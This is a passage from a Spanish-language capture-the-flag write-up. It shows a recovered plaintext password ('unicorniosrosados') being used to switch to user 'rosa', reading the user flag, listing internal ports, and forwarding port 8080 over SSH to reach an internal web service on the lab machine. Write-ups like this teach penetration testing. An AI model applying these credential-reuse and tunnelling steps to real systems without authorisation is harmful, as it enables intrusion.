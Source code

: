 Está, la contraseña en texto claro es `unicorniosrosados`. Vamos a intentar autenticarnos como `rosa` con esta credencial.

```
su rosa
Password: unicorniosrosados
```

Como rosa podemos leer la flag del usuario.

```
cd
cat user.txt
```

Vamos a ver que servicios están corriendo internamente.

```
ss -tln

State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port  Process  
LISTEN   0        4096       127.0.0.53%lo:53            0.0.0.0:*              
LISTEN   0        128              0.0.0.0:22            0.0.0.0:*              
LISTEN   0        128              0.0.0.0:5000          0.0.0.0:*              
LISTEN   0        128            127.0.0.1:8080          0.0.0.0:*              
LISTEN   0        128                 [::]:22               [::]:*
```

Hay un servidor en el puerto `8080` (puerto que suele usarse para pruebas de HTTP). Para verlo en un navegador en nuestra máquina local haremos un tunel con ssh.

```
ssh -L 80:localhost:8080 rosa@10.129.235.159
```

Ahore nuestro puerto `80` equivale al puerto `8080`de la máquina víctima. Vamos a visitar el servicio.
